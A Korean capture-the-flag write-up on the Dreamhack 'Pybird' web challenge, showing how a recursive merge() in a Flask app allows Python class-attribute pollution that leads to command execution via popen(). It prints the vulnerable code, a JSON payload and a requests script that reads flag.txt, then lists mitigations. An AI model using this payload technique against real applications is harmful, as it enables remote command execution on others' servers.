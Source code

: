 ```yaml
---
title: "[CTF] Pybird"
date: 2025-09-19 22:20:00 +0900
categories: [CTF, Web]
tags: [CTF, Deserialization, Object Injection, Python]
description: "드림핵 Pybird"
author: "송지민"
toc: true
---
```


## 문제 개요

이번 문제는 Flask 기반의 간단한 멤버 관리 서비스이다. 역할(role)에 따라 다른 클래스 인스턴스를 생성하고, `principal` 역할인 경우에만 추가로 `merge()` 함수를 호출해 JSON(또는 form)으로 전달된 값을 객체에 병합한다. 이 병합 로직이 객체 속성을 임의로 덮어쓸 수 있게 설계되어 있어, 공격자가 `principal` 객체에 임의의 어트리뷰트를 주입하면 서버 측에서 해당 어트리뷰트를 사용해 명령을 실행할 수 있다.

* 취약 페이지: `/add_member` (POST, JSON 또는 form)
* 명령 실행 경로: `/execute` → `principal.command()` → `popen(command)`
* 취약점 핵심: `merge(src, dst)`가 사용자 입력을 객체에 재귀적으로 주입하여 임의 속성(예: `cmd`)을 추가 가능
* FLAG 위치: 서버 상의 `flag.txt` (예시)

---

## 문제에 제공된 원본 소스코드(핵심부)

아래는 문제에서 제공된 `app.py`의 핵심 부분이다.

```python
from flask import Flask, request, jsonify, render_template, redirect, url_for
from os import popen

app = Flask(__name__)

class Student:
    def __init__(self, name):
        self.name = name
        self.role = "student"

class Teacher(Student):
    def __init__(self, name):
        super().__init__(name)
        self.role = "teacher"

class SubstituteTeacher(Teacher):
    def __init__(self, name):
        super().__init__(name)
        self.role = "substitute_teacher"

class Principal(Teacher):
    def __init__(self, name):
        super().__init__(name)
        self.role = "principal"

    def command(self):
        command = self.cmd if hasattr(self, 'cmd') else 'echo Permission Denied'
        return f'{popen(command).read().strip()}'


def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

principal = Principal("principal")
members = []
members.append({"name":"admin", "role":"principal"})

@app.route('/execute', methods=['GET'])
def execute():
    return jsonify({"result": principal.command()})

@app.route('/add_member', methods=['GET', 'POST'])
def add_member():
    if request.method == 'POST':
        if request.is_json:
            data = request.get_json()
        else:
            data = request.form
        name = data.get("name")
        role = data.get("role")
        if role == "principal":
            new_member = Principal(name)
            merge(data, new_member)
        ...
        members.append({"name": new_member.name, "role": new_member.role})
        return redirect(url_for('index'))
```

---

## 내가 실제로 푼 방법

핵심은 `merge()` 함수가 JSON 입력을 받아 `Principal` 객체의 속성을 사용자 입력으로 덮어쓰도록 허용하는 점이다. 이 동작을 이용하면 `principal` 객체에 `cmd` 어트리뷰트를 추가하여 `/execute` 호출 시 임의 명령을 실행시킬 수 있다.

### 공격 아이디어 요약

1. `/add_member`에 JSON으로 `role="principal"`을 주고, 구조체 형태로 `cmd` 값을 깊은 위치에 끼워넣어 `merge()`가 `Principal` 인스턴스에 `cmd` 속성을 설정하게 한다.
2. `/execute`를 호출하면 `principal.command()`가 `self.cmd`를 읽어 `popen()`으로 실행하므로, 예: `cat /flag.txt` 같은 명령 결과를 JSON으로 얻을 수 있다.

### 내가 사용한 페이로드(예시, CTF용)

아래 페이로드는 JSON 바디로 `/add_member`에 POST하는 형식이다.

```json
{
  "name": "Exploited",
  "role": "principal",
  "__class__": {
    "__base__": {
      "__base__": {
        "cmd": "cat /flag.txt"
      }
    }
  }
}
```

* 이 페이로드는 `merge()` 호출 과정에서 `setattr()`을 통해 `principal` 객체에 `cmd` 어트리뷰트가 추가되도록 유도한다.

### 재현 예시(간단한 파이썬 스크립트)

```python
import requests
base_url = 'http://<target>:5000'
payload = {
    "name": "Exploited",
    "role": "principal",
    "__class__": {
        "__base__": {
            "__base__": {
                "cmd": "cat /flag.txt"
            }
        }
    }
}
resp = requests.post(f'{base_url}/add_member', json=payload)
print(resp.status_code, resp.text)
# 이후
resp = requests.get(f'{base_url}/execute')
print(resp.json())
```

---

## 재현 흐름

1. 공격자: `/add_member`에 위 JSON 페이로드로 POST → `merge()`로 인해 `principal.cmd`가 설정됨
2. 공격자: `/execute` 요청 → `principal.command()`가 `self.cmd` 실행 → 명령 결과 반환(예: flag)

---

## 왜 이게 가능했나

* `merge()`는 외부 입력을 신뢰하고 객체의 속성을 그대로 덮어쓴다(심지어 재귀적으로).
* `Principal` 클래스의 `command()`는 `self.cmd`가 존재하면 이를 실행하도록 설계되어 있어, 외부에서 `cmd`를 주입하면 임의 명령 실행이 가능하다.
* 입력 검증, 허용 속성 화이트리스트, `merge()`의 안전한 구현이 없기 때문에 객체 인젝션(Object Injection) 취약점이 발생한다.

---

## 완화 및 권장 대책

* **절대 사용자 입력을 객체의 속성으로 직접 주입하지 말 것.** 특히 `setattr()` 같은 함수를 통해 내부 객체 상태를 변경하지 말자.
* **화이트리스트 방식의 속성 필터링**: 허용된 키와 값의 타입만 병합하도록 제한하라.
* **직렬화/역직렬화 안전**: 신뢰할 수 없는 JSON을 클래스 인스턴스로 직접 매핑하지 말 것.
* **원격 명령 실행 구조 제거**: `popen()` 등은 최소 권한/승인된 입력만 받도록 하거나 완전히 제거.
* **로그 및 모니터링**: 의심스러운 객체 변경과 관리자 권한 조작 시도 탐지.

---

## 마무리

Pybird 문제는 Python 객체 병합 로직의 위험성을 잘 보여주는 사례다. 외부 입력으로부터 객체 속성을 덮어쓰는 행위는 곧 권한 상승 및 원격 명령 실행으로 이어질 수 있으므로, 설계 단계에서부터 엄격한 입력 검증과 속성 제어가 필요하다.